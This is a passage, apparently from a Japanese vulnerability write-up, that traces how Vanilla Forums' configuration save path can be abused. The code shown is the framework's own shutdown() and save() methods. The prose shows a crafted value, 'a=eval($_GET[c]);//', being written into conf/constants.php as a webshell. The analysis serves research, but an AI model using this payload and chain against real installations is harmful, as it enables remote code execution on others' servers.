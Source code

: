 ```php
    public function shutdown() {
        foreach ($this->sources as $source) {
            $source->shutdown();                    // 3
        }
    }
```
そして以下の`save()`メソッドが実行される。   
[6]のswitchで`$this->Type`の値が`'file'`のとき、[7]で`$group`に`'a=eval($_GET[c]);//'`がセットされる。   
次に[8]で`$options`連想配列に`'VarialbleName'`のValueとして値がセットされる。   
次に[9]で`array_merge()`で別の情報も`$options`に統合される。   
次に[10]で`Gdn_Configuration::format($data, $options)`で`'VarialbleName'`のValueをグローバル変数として設定するらしい。つまり、`$`にValueを追加した`$a=eval($_GET[c]);//`がグローバル変数名として設定される。また、これらをファイルの中身として`$fileContents`に保存する。   
[11]でランダムに作成した`$tmpFile`ファイルに`$fileContents`を書き込む。   
[12]で`$this->Source`にセットされた`"/var/www/html/conf/constants.php"`にファイル名を書き換える。これでWebshellが設置できる！   

```php
class Gdn_ConfigurationSource extends Gdn_Pluggable {

    ...

    /**
     *
     * 
     * @return bool|null
     * @throws Exception
     */
    public function save() {
        if (!$this->Dirty) {
            return null;
        }

        $this->EventArguments['ConfigDirty'] = &$this->Dirty;
        $this->EventArguments['ConfigNoSave'] = false;
        $this->EventArguments['ConfigType'] = $this->Type;
        $this->EventArguments['ConfigSource'] = $this->Source;
        $this->EventArguments['ConfigData'] = $this->Settings;
        $this->fireEvent('BeforeSave');

        if ($this->EventArguments['ConfigNoSave']) {
            $this->Dirty = false;
            return true;
        }

        // Check for and fire callback if one exists
        if ($this->Callback && is_callable($this->Callback)) {
            $callbackOptions = [];
            if (!is_array($this->CallbackOptions)) {
                $this->CallbackOptions = [];
            }

            $callbackOptions = array_merge($callbackOptions, $this->CallbackOptions, [
                'ConfigDirty' => $this->Dirty,
                'ConfigType' => $this->Type,
                'ConfigSource' => $this->Source,
                'ConfigData' => $this->Settings,
                'SourceObject' => $this
            ]);

            $configSaved = call_user_func($this->Callback, $callbackOptions);

            if ($configSaved) {
                $this->Dirty = false;
                return true;
            }
```